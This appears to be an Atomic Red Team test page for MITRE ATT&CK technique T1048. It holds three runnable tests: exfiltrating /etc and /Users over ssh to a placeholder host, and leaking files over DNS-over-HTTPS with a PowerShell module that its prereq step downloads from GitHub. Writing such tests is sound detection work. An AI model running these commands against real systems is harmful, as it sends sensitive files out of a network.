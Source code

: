 # T1048 - Exfiltration Over Alternative Protocol

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1048)

<blockquote>Adversaries may steal data by exfiltrating it over a different protocol than that of the existing command and control channel. The data may also be sent to an alternate network location from the main command and control server.

Alternate protocols include FTP, SMTP, HTTP/S, DNS, SMB, or any other network protocol not being used as the main command and control channel. Adversaries may also opt to encrypt and/or obfuscate these alternate channels.

[Exfiltration Over Alternative Protocol](https://attack.mitre.org/techniques/T1048) can be done using various common operating system utilities such as [Net](https://attack.mitre.org/software/S0039)/SMB or FTP.(Citation: Palo Alto OilRig Oct 2016) On macOS and Linux <code>curl</code> may be used to invoke protocols such as HTTP/S or FTP/S to exfiltrate data from a system.(Citation: 20 macOS Common Tools and Techniques)

Many IaaS and SaaS platforms (such as Microsoft Exchange, Microsoft SharePoint, GitHub, and AWS S3) support the direct download of files, emails, source code, and other sensitive information via the web console or [Cloud API](https://attack.mitre.org/techniques/T1059/009).</blockquote>

## Atomic Tests

- [Atomic Test #1 - Exfiltration Over Alternative Protocol - SSH](#atomic-test-1---exfiltration-over-alternative-protocol---ssh)

- [Atomic Test #2 - Exfiltration Over Alternative Protocol - SSH](#atomic-test-2---exfiltration-over-alternative-protocol---ssh)

- [Atomic Test #3 - DNSExfiltration (doh)](#atomic-test-3---dnsexfiltration-doh)

<br/>

## Atomic Test #1 - Exfiltration Over Alternative Protocol - SSH

Input a domain and test Exfiltration over SSH

Remote to Local

Upon successful execution, sh will spawn ssh contacting a remote domain (default: target.example.com) writing a tar.gz file.

**Supported Platforms:** macOS, Linux

**auto_generated_guid:** f6786cc8-beda-4915-a4d6-ac2f193bb988

#### Inputs:

| Name   | Description       | Type | Default Value      |
| ------ | ----------------- | ---- | ------------------ |
| domain | target SSH domain | url  | target.example.com |

#### Attack Commands: Run with `sh`!

```sh
ssh #{domain} "(cd /etc && tar -zcvf - *)" > ./etc.tar.gz
```

<br/>
<br/>

## Atomic Test #2 - Exfiltration Over Alternative Protocol - SSH

Input a domain and test Exfiltration over SSH

Local to Remote

Upon successful execution, tar will compress /Users/\* directory and password protect the file modification of `Users.tar.gz.enc` as output.

**Supported Platforms:** macOS, Linux

**auto_generated_guid:** 7c3cb337-35ae-4d06-bf03-3032ed2ec268

#### Inputs:

| Name      | Description         | Type   | Default Value      |
| --------- | ------------------- | ------ | ------------------ |
| user_name | username for domain | string | atomic             |
| password  | password for user   | string | atomic             |
| domain    | target SSH domain   | url    | target.example.com |

#### Attack Commands: Run with `sh`!

```sh
tar czpf - /Users/* | openssl des3 -salt -pass #{password} | ssh #{user_name}@#{domain} 'cat > /Users.tar.gz.enc'
```

<br/>
<br/>

## Atomic Test #3 - DNSExfiltration (doh)

DNSExfiltrator allows for transferring (exfiltrate) a file over a DNS request covert channel. This is basically a data leak testing tool allowing to exfiltrate data over a covert channel.
!!! Test will fail without a domain under your control with A record and NS record !!!
See this github page for more details - https://github.com/Arno0x/DNSExfiltrator

**Supported Platforms:** Windows

**auto_generated_guid:** c943d285-ada3-45ca-b3aa-7cd6500c6a48

#### Inputs:

| Name      | Description                                                                            | Type   | Default Value                                                    |
| --------- | -------------------------------------------------------------------------------------- | ------ | ---------------------------------------------------------------- |
| password  | Password used to encrypt the data to be exfiltrated                                    | string | atomic                                                           |
| domain    | The domain name to use for DNS requests                                                | string | target.example.com                                               |
| ps_module | DNSExfiltrator powershell ps_module                                                    | path   | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;dnsexfil.ps1 |
| doh       | Google or CloudFlare DoH (DNS over HTTP) server                                        | string | google                                                           |
| time      | The time in milliseconds to wait between each DNS request                              | string | 500                                                              |
| encoding  | Set to '-b32' to use base32 encoding of data. Might be required by some DNS resolvers. | string |                                                                  |

#### Attack Commands: Run with `powershell`!

```powershell
Import-Module "#{ps_module}"
Invoke-DNSExfiltrator -i "#{ps_module}" -d #{domain} -p #{password} -doh #{doh} -t #{time} #{encoding}
```

#### Dependencies: Run with `powershell`!

##### Description: DNSExfiltrator powershell file must exist on disk at specified location (#{ps_module})

##### Check Prereq Commands:

```powershell
if (Test-Path "#{ps_module}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
IWR "https://raw.githubusercontent.com/Arno0x/DNSExfiltrator/8faa972408b0384416fffd5b4d42a7aa00526ca8/Invoke-DNSExfiltrator.ps1" -OutFile "#{ps_module}"
```

<br/>
